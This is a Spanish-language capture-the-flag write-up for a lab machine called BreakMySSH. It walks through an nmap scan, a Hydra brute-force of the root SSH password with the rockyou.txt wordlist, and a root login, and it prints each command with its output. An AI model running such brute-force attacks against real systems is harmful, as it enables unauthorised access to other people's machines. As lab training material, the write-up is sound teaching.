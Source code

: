 # Máquina BreakMySSH
- Dificultad: muy fácil

## Escaneo con nmap
<p>Realizamos un escaneo de puertos, servicios y versiones con el siguiente comando.</p>

```
nmap -sCV -sS -n -Pn -p- 172.17.0.2

```

```
Nmap scan report for 172.17.0.2
Host is up (0.000021s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)


```
<p>El servicio SSH está activo, como no encontramos más opciones realizamos un ataque de fuerza bruta con hydra al usuario root de la máquina víctima usando el diccionario rockyou.txt.</p>

## Hydra

```
 hydra -l root  -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 

```

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-12 22:23:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
1 of 1 target successfully completed, 1 valid password found

```
<p>Encontramos la contraseña de root, nos conectamos con ssh.</p>

##SSH

```
ssh 172.17.0.2 -l root

```
<p>Nos pide la contraceña, la escribimos y estamos dentro.</p>

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:U6y+etRI+fVmMxDTwFTSDrZCoIl2xG/Ur/6R0cQMamQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
root@172.17.0.2's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@f04d905e719f:~# whoami
root
root@f04d905e719f:~# 

```

